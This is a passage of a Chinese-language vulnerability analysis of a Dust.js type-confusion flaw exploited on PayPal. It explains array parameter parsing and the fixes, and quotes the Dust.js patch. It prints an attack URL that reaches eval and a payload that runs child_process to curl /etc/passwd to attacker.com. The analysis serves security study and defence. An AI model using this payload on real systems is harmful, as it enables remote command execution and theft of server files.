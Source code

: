 

```
qs.parse('a');          // `{`a : ''`}`
qs.parse('a=foo');      // `{`a : 'foo'`}`
qs.parse('a=foo&amp;b=bar');// `{`a : 'foo', b: 'bar'`}`
qs.parse('a=foo&amp;a=bar');// `{`a : ['foo', 'bar']`}`
qs.parse('a[]=foo');    // `{`a : ['foo']`}`
```

你可能会注意到，qs通过查询字符串中对象的创建方式来判断对象类型。如果同一个对象名多次出现，它就会被当成数组对象。类似地，如果一个变量显示声明为数组型变量，那么在解析该变量时Dust.js将按照数组类型进行处理。

这里距离触发Dust.js漏洞已经很近了。PayPal使用了上文分析的存在漏洞的模板，攻击者需要做的仅仅是提供device参数两次，或者以“device[]=value”形式提供参数，这样变量就会按数组方式进行参数传递，最终绕过净化函数的处理逻辑。

**（三）Dust.js漏洞后续利用**

这一部分与类型篡改主题有一定关系，但主要内容是分析攻击者如何具体利用此类漏洞。

首先，攻击者需要获得代码运行机会。这个目标可以通过一个攻击URL来实现，如下所示：

攻击所用的URL: https://host/page?device=x&amp;device=y'-console.log('gotcha')+'

调用eval执行: eval("'xy'-console.log('gotcha')+'' == 'desktop'");

控制台日志消息对攻击者来说用处不大，因此攻击者需要使用其他更为巧妙的方法，比如将某些信息从内部往外部发送。在PayPal漏洞中，研究人员使用了如下载荷传递信息：

```
http://host/page?device=x&amp;device=y'-require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+attacker.com')-'
```

等价的eval语句如下所示：

```
eval("'xy'-require('child_process').exec('curl -F "x=`cat /etc/passwd`" attacker.com')-'' == 'desktop'");
```

以上漏洞利用方式使用的是child_process模块来执行本地curl命令，将“/etc/passwd”文件发送给攻击者。使用原生的Node命令也可以完成相同任务，但所需的载荷稍长。使用child_process模块可以将漏洞范围从远程JS代码执行延伸至远程shell命令执行，拓宽攻击者可选项。

**（四）修复措施**

大多数类型篡改漏洞（Dust.js的这个也不例外）可以通过禁用（disallowing）、规范化（normalizing）或自定义处理（custom handling）变量类型加以修复。这三种措施可以相互结合，建立多层防御机制。

禁用变量类型意味着只有特定变量类型受模板支持。此例中，Dust.js可以选择在模板中禁用非字符串类型参数，这种处理方式将导致模板框架功能减少，因此需根据框架的具体使用方式来确定是否使用该方法。

规范化变量类型意味着各种输入类型将会转换为一种类型。本例中，Dust.js将有问题的变量传递给eval()函数时，这些变量会被隐式转化为字符串变量。与其在向eval()传递参数时对变量类型进行转化，Dust.js可以在上游函数中将传入的数组、整数或其他变量转化为字符串，然后在后续代码中（如sanitisation函数）进行处理。

自定义处理变量意味着需要对所有支持的类型编写特定的处理方式。本例中，Dust.js早就可以确定变量为数组类型，可以对数组中的每个字符串进行规范化处理，同时它也可以对多个数组的组合进行处理。自定义处理方法是三种方法中最为脆弱的，但同时也能够处理更加复杂的输入。

Dust.js选择了自定义处理方法，可以拦截toString属性为函数的所有对象。这种处理方法的确解决了这个问题，但也在代码中留下了一定的脆弱点，因为下游代码可能会选择以不同的方式将数组对象转化为用户输出。以下是[Dust.js补丁](https://github.com/linkedin/dustjs/commit/e179c8ff600e0ee73be13ee9ded904321fcbcfc0#diff-86d996c4ed91a5bbfce2bb7461033118R850)中的相关代码片段：



```
dust.escapeHtml = function(s) `{`
if (typeof s === "string" || (s &amp;&amp; typeof s.toString === "function")) `{`
   if (typeof s !== "string") `{`
      s = s.toString();
   `}`
   if (!HCHARS.test(s)) `{`
      return s;
   `}`
 `}`
`}`;
```
